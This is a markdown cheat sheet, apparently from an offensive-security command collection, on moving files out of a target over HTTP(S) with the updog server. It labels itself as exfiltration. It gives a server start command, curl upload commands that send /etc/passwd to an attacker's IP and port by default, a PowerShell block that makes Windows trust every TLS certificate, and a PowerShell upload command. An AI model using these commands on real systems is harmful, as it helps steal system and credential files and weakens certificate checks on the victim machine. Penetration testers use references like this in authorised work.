 # FileTransfer-HTTP(s)

% file transfer, exfiltration, injecton

#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 


## updog - start server
#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 
```
updog -d $(pwd) -p <lport|9090> [--ssl]
```

## updog - curl upload to (http)
For secured by password use http://:<password>@<ip>:<port>/upload
```
curl -XPOST -F "file=@<file|/etc/passwd>;filename=<filename>" -F "path=<path>" http://<ip>:<port|9090>/upload
```

## updog - curl upload to (https)
For secured by password use https://:<password>@<ip>:<port>/upload
```
curl -XPOST -k -F "file=@<file|/etc/passwd>;filename=<filename|passwd>" -F "path=<updog-path|.>" https://<ip>:<port|9090>/upload
```

## updog - powershell trust certificat
```
 add-type @"
    using System.Net;
    using System.Security.Cryptography.X509Certificates;
    public class TrustAllCertsPolicy : ICertificatePolicy {
        public bool CheckValidationResult(
            ServicePoint srvPoint, X509Certificate certificate,
            WebRequest request, int certificateProblem) {
            return true;
        }
    }
"@
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
```

## updog - powershell upload (http)
For secured by password use http://:<password>@<ip>:<port>/upload
```
$f = Get-item <b64-file>
$body = @{
    file = $f
    path = '<path>'
}
Invoke-RestMethod -Method Post -Uri https://<ip>:<port|9090>/upload  -Form $body -Verbose -MaximumRedirection 0
```
